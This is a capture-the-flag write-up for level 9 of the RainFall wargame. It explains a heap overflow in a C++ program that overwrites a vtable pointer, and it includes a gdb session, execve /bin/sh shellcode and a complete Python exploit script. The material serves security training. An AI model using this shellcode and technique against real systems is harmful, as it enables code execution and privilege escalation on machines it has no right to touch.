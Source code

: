 # Level 9

For the first time, we have a C++ executable, so it is a bit trickier as things get mangled a little bit.
The program allocates two instances of the class `N`. The class contains an integer and a char array.

In the function setAnnotation, we will memcpy the entirety of our argv[1] into this char array.

Shellcode from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-811.html): "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"


```shell
level9@RainFall:~$ gdb -q level9 
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) break *main+136 # Right after the setAnnotation call
Breakpoint 1 at 0x804867c
(gdb) r "AAAA"
Starting program: /home/user/level9/level9 "AAAA"

Breakpoint 1, 0x0804867c in main ()
(gdb) x/x $eax
0x804a00c:	0x41414141 # "AAAA"
```
our vtable (start of shellcode*8) | padding (`0x30` times nop) | start of shellcode `0x804A05C`| address of our vtable `0x804A02C`

```shell
#!/usr/bin/python
destination="\x0c\xa0\x04\x08"
start_of_shellcode="\x5c\xa0\x04\x08"
vtable=start_of_shellcode*8
padding="\x90"*0x30
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print vtable + padding + shellcode + destination
```
